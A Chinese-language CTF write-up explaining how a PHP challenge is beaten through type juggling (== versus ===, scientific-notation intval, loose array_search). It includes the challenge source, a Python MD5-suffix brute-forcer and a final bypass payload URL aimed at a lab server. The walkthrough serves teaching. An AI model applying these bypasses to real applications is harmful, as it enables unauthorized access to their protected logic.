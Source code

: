 感觉主要是对于php一些常见函数的绕过

主要区分的是==和===

==会发生强制类型转换，而===要求比较类型和值

源代码如下：

```php
<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;

$a = $_GET['a'];
$b = $_GET['b'];

if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        $key1 = 1;
        }else{
            die("Emmm...再想想");
        }
    }else{
    die("Emmm...");
}

$c=(array)json_decode(@$_GET['c']);
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
    }else{
        die("no hack");
    }
}else{
    die("no");
}

if($key1 && $key2){
    include "Hgfks.php";
    echo "You're right"."\n";
    echo $flag;
}
```



发现需要构造a和b和c

构造a就要用e了，注意url传递字符串不用“”

b的话用一个python脚本便可以构造成功（问就是撞库）

```python
import hashlib

target_suffix = "8b184b"

# 循环生成字符串并计算哈希值
i = 0
while True:
    # 构造字符串
    string = str(i)
    # 计算哈希值
    hash_value = hashlib.md5(string.encode()).hexdigest()
    # 提取哈希值的后六位
    suffix = hash_value[-6:]
    # 检查是否符合条件
    if suffix == target_suffix:
        break
    i += 1

print("生成的字符串:", string)
print("对应的哈希值:", hash_value)
```

c的话就是一个json序列化问题

然后关键在于array_search()比较为==问题，用0和"DGGJ"比较就可

最后的payload

http://61.147.171.105:56575/?a=1e8&b=53724&c={%22m%22:%222023a%22,%22n%22:[[1,2],0]}